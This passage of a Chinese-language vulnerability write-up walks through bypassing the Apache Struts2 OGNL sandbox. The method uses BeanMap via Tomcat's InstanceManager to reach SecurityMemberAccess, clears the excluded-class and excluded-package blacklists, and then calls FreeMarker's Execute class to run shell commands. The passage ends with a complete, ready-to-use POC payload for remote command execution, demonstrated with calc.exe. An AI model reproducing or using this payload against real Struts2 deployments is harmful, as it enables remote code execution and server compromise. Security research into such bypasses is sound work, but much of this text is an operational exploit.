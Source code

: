![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBkBRWQ6B86OmpIuTj527hr6x3vma341EtuibPH5Bv9gTNbLHKKL5Js1g/640?wx_fmt=png)OgnlContext 获取 SecurityMemberAccess 的方法

```
# 注意，自行调试的话，需要分两次执行%{#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}%{#application.map3.setBean(#application.get('map2').get('memberAccess'))}
```

1. 确认一下之前存放的 Map 都正确存下来了，不然岂不是白忙活，其实每一步执行完后，都可以查看一次，确认每一步都是操作正确的，这里我就一次过了。

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBEV8M5IJsyWq9tgwmoWkNbRl4OMlo3wBymuO94ZHDibPYCsOk56nncrg/640?wx_fmt=png)断点确认前面设置的数据，是否正确

1. 前面的操作都确认没有问题后，就可以调用方法重置黑名单了，主要 API 为`com.opensymphony.xwork2.ognl.SecurityMemberAccess#setExcludedClasses`和`com.opensymphony.xwork2.ognl.SecurityMemberAccess#setExcludedPackageNames`, 如下图

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBOKwHTvqC7TRIFUgsV0yO2MRicvNOhzTiamWecFGMmAWnCdbj2BBv4PtA/640?wx_fmt=png)设置黑名单的两个方法

在我们这两个地方打了断点后，我们请求下面或者前面的 ognl 可以发现，在每次收到请求的时候，都会调用一次这里的黑名单赋值，也就是说，就算是我们在本次请求重置了黑名单，在下次请求的时候，黑名单还是会重置。因此只有前面的 ognl 可以持久化存储，实际利用的时候，必须要在一个请求中进行命令执行。下文还会有一个存放在`request`中的 poc。

初次请求赋值:

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBAMmSnm4qP7LKDmA7sFd4p99vxCbpbXfhsse1tEvvFFfO8zV7BwwyqA/640?wx_fmt=png)自动重置黑名单 1![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mB53l2FiaXAw2ZPDecAaXcH41opic1pD43OyEwvEP4ib3YDRwp7r7BGhGog/640?wx_fmt=png) 自动重置黑名单 2

执行下面清空黑名单代码的重新赋值

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBSJ33iaWKUt5iamqf2MUq8ZSibzaiczI2ehc6HuYKJjwHRaNftFOoXX5tmA/640?wx_fmt=png)清空黑名单 1![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBzibkgGuvOwIpsT2pibw0oUNwca3icVw74npONHtRazUL1Iz3KtNawgyBA/640?wx_fmt=png) 清空黑名单 2

清 7 空黑名单的 ognl 代码

```
# 注意，自行调试的话，需要分两次执行   #application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet'))   #application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet'))
```

1. 这里就可以使用黑名单中的`freemarker.template.utility.Execute`类中的`exec`方法执行 Shell 了。需要最少和前面的 8 一起使用，才能执行成功。可以直接使用最后面的完整 poc 代码执行。

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBkib0wCRcWcoaNqfw47KIJvYqm0PN2ria4nlTvNjictuWkxkXt1nANfyNA/640?wx_fmt=png)shell 代码断点查看![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv35lBxL3C8t2fDDvY1pXf5mBukoezkKFsQfKrrACjpNYofhMicyTp5PjJYtcXqISKOSAS1bmquwG6dw/640?wx_fmt=png) payload 执行结果

执行 shell 的 ognl 代码

```
#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'})
```

#### 完整 POC

#### 使用 application，就是上面思路的完整 POC

```
%{(#application.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + (#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +(#application.map2.setBean(#application.get('map').get('context')) == true).toString().substring(0,0) + (#application.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + (#application.map3.setBean(#application.get('map2').get('memberAccess')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + (#application.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'calc.exe'}))}
```
